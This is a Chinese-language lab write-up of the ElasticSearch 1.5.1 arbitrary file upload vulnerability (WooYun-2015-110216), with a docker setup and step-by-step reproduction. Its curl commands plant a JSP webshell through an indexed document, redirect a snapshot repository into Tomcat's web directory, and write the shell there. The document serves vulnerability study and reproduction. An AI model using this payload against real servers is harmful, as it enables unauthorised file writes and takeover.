

ElasticSearch 任意文件上传漏洞（WooYun-2015-110216）¶
ElasticSearch是一个分布式的RESTful搜索和分析引擎。
ElasticSearch的备份功能中存在一个漏洞，攻击者可以利用该漏洞向文件系统写入任意文件，当与其他Web服务结合时，可能导致WebShell上传。
ElasticSearch具有数据备份功能，允许用户指定一个路径来存储备份数据。这个路径和文件名都可以由用户控制。如果系统上同时运行着其他Web服务（如Tomcat、PHP等），攻击者可以利用ElasticSearch的备份功能向Web可访问目录写入WebShell。
与CVE-2015-5531类似，该漏洞与备份仓库功能有关。在ElasticSearch 1.5.1版本之后，备份仓库的根路径被限制在path.repo配置选项中。如果管理员未配置此选项，备份功能将默认禁用。即使配置了该选项，只有当Web根目录位于配置目录内时，才能写入WebShell。
参考链接：
环境搭建¶
执行以下命令启动一个ElasticSearch 1.5.1版本的服务器，同时，一个Tomcat也运行在同一容器中：
docker compose up -d
Tomcat安装在/usr/local/tomcat目录，其Web目录位于/usr/local/tomcat/webapps。ElasticSearch安装在/usr/share/elasticsearch目录。
漏洞复现¶
我们的目标是利用ElasticSearch在/usr/local/tomcat/webapps目录下写入WebShell。
首先，创建一个恶意的索引文档：
curl -XPOST http://127.0.0.1:9200/yz.jsp/yz.jsp/1 -d'
{"<%new java.io.RandomAccessFile(application.getRealPath(new String(new byte[]{47,116,101,115,116,46,106,115,112})),new String(new byte[]{114,119})).write(request.getParameter(new String(new byte[]{102})).getBytes());%>":"test"}
'
然后创建一个恶意的仓库。其中location的值是我们要写入文件的路径。
注意：仓库路径的特点在于它可以写入任何可访问的位置，如果路径不存在会自动创建。这意味着你可以通过文件访问协议创建任意文件夹。这里我们将路径指向Tomcat的Web部署目录，因为Tomcat会自动为该目录下创建的文件夹创建新的应用（如果文件名为wwwroot，创建的应用名称就是wwwroot）。
curl -XPUT 'http://127.0.0.1:9200/_snapshot/yz.jsp' -d '{
"type": "fs",
"settings": {
"location": "/usr/local/tomcat/webapps/wwwroot/",
"compress": false
}
}'
验证并创建仓库：
curl -XPUT "http://127.0.0.1:9200/_snapshot/yz.jsp/yz.jsp" -d '{
"indices": "yz.jsp",
"ignore_unavailable": "true",
"include_global_state": false
}'
完成！
访问http://127.0.0.1:8080/wwwroot/indices/yz.jsp/snapshot-yz.jsp即可找到我们上传的WebShell。
这个Shell允许向wwwroot目录下的test.jsp文件写入任意字符串。例如：http://127.0.0.1:8080/wwwroot/indices/yz.jsp/snapshot-yz.jsp?f=success。然后访问/wwwroot/test.jsp就能看到"success"：
